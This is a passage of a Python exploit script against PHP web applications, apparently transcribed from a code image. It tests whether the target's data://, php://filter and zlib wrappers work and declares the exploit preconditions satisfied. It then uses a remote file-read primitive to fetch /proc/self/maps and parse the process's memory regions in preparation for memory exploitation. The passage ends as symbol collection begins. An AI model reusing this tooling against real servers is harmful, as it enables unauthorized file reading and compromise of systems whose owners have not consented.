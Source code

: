 ```python
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

        msg_info("The [i]data://[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(text.encode(), misalign=True).decode()
        path = f"php://filter//resource=data:text/plain;base64,{base64}"
        if not check_token(text, path):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(compress(text.encode()), misalign=True).decode()
        path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        if not check_token(text, path):
            failure("The [i]zlib[/] extension is not enabled")

        msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.remote.data_decode(self.get_file("/proc/self/maps"))
        
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
        regions = self.get_regions()
```